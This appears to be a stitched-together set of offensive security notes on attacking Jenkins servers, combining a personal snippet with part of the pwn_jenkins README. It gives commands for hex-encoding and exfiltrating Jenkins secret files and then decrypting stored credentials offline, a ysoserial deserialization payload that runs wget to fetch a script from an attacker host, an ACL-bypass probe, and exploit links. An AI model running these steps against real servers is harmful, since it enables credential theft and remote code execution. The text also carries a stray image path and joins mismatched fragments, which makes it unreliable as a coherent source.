 ```

#sourcehttps://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py
#this displays to termial hex content of file
xxd -p file.txt
xxd -p hudson.util.Secret | tr -d '\n'
xxd -p file.txt | tr -d '\n'
					
					
#on different machine-- place collected ascii string in 	
xxd -r -ps hexascii.txt file.txt
xxd -r -ps hexascii.txt hudson.util.Secret		
/root  - python3.9 -m pip install pycrypto
python3 ./jenkins_offline_decrypt.py master.key hudson.util.Secret credentials.xml

```


<img src="/pwn_jenkins.png" width="640">

Remote Code Execution
=====================
Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)
--------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2018-12-05/)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)
---------------------------------------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).
